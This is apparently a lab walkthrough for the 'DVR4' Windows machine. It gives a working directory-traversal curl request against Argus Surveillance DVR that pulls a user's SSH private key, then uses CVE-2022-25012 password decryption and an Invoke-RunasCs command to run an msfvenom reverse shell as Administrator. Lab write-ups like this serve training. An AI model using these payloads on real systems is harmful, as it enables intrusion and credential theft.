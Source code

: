 # 🏴 DVR4 (Windows)

## 🧠 Initial Foothold

- Accessed the web interface running on port 8080, identified as Argus Surveillance DVR.

- Found a list of usernames under the users section.

- Discovered a directory traversal vulnerability, and used it to retrieve the SSH private key for the viewer user with the following command:

  ```bash
  curl "http://192.168.216.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
  ```

- Used the retrieved private key to SSH into the machine as viewer.

---

## 🚀 Privilege Escalation

- Suspected weak password storage and searched for sensitive files.

- Found potential credentials in:  
  `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`

- Used the following tool to decrypt the stored password:  
  `s3l33/CVE-2022-25012`

- The decrypted credentials revealed the Administrator password.

- Created a reverse shell executable using msfvenom and uploaded it to the machine.

- Used Invoke-RunasCs to execute the shell as Administrator:

  ```powershell
  Invoke-RunasCs -Username Administrator -Password '14WatchD0g$' -Command "C:\Users\viewer\shell.exe"
  ```

- Successfully obtained a reverse shell as Administrator.

---

🧼 **Post-Exploitation Note:**  
Clean up any shells or payloads left behind.

> ⚠️ This walkthrough is for educational purposes only.
